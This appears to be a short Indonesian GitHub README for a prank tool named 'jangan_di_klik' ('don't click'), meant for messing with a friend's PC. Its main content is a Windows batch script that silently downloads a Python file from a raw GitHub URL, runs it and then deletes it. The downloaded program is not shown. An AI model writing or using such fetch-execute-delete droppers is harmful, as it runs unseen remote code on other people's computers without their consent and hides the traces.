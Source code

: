 # jangan_di_klik

buat isengin pc temen :

@echo off

REM Menyimpan isi kode dari GitHub ke file temporary.py
curl -s -o halo_kak.py https://raw.githubusercontent.com/muhamadhafis/jangan_di_klik/master/jangan_di_klik.py

REM Menjalankan program Python
python halo_kak.py

REM Menghapus file temporary.py setelah selesai
del halo_kak.py

pause
